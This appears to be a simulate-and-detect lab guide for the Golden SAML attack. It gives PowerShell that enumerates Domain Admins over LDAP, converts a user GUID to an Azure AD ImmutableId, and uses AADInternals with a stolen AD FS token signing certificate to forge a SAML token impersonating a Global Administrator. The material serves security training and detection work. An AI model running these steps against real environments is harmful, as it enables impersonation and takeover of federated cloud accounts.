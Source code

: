 # Forge SAML Tokens with Active Directory Federation Service (AD FS) Token Signing Certificate

If a threat actor gets to steal the AD FS token signing certificate from an AD FS server, it is just a matter of time until it is used to sign SAML tokens and impersonate users in a federated environments. 

## Sumulate & Detect
1.	[Enumerate privileged accounts](#enumerate-privileged-accounts).
2.	[Forge SAML tokens](#forge-saml-tokens).

## Enumerate Privileged Accounts

Let's start by identifying privileged accounts that we could impersonate and that could also have privileged access to resources in the cloud. In this lab guide, the default domain admin account named `pgustavo` was also the account that was assigned the Azure AD built-in Global Administrator role. Therefore, we can start by enumerating the members of the `Domain Admins` group.

### Enumerate Members of the Domain Admins Group via Lightweight Directory Access Protocol (LDAP)

**Preconditions**
* Endpoint: ADFS01
    * Authorization: AD FS service account or local admin
* Endpoint: DC01
    * Service running: Active directory domain services
    * Port open: 389

1.  Connect to the AD FS server (ADFS01) via the [Azure Bastion service](../../2_deploy/_helper_docs/configureAADConnectADFS) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers = $ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_01_get_domain_admins.png)

## Forge SAML Token

A threat actor would most likely do this outside of the organization. Therefore, there are no detections for this step.

**Preconditions**
* Endpoint: ADFS01
  * Even when this step would happen outside of the organization, we can use the same PowerShell session we used in the previous section.
  * Libraries Installed: [AADInternals](https://github.com/Gerenios/AADInternals)
  * AD FS token signing certificate:
    * In a previous simulation step, we [exported the AD FS token signing certificate as a PFX file](exportADFSCertificatesAsPfxFiles.md) to the `C:\ProgramData` directory with the name `ADFSTokenSigningCertificate.pfx` (default).

### Convert User AD Object GUID to its Azure AD Immutable ID representation

1.  Once we identify the privileged user we want to impersonate, we need to obtain the immutable ID of the account AD object GUID. The `ImmutableId` is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$ObjectGUID = "07cd318c-b6ba-432e-9936-b992d7c78388"
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_02_get_immutable_id.png)

### Install AADInternals

2.  On the same PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.8 -Force 
Import-Module –Name AADInternals
```

### Sign a New SAML Token

3. Use the `New-AADIntSAMLToken` function to sign a new SAML token. We would need:
  * The `ImmutableID` we got in the first stecion.
  * The path to the token signing certificate file.
  * The D FS token issuer url.

```PowerShell 
$ImmutableId = 'jDHNB7q2LkOZNrmS18eDiA=='
$Cert = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken = New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_04_sign_saml_token.png)

## Output

Use the variable `$SamlToken` in the next step where we [get an access token via SAML bearer Assertion Flow](decryptADFSCertificates.md) for resources such as the Microsoft Graph API.

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
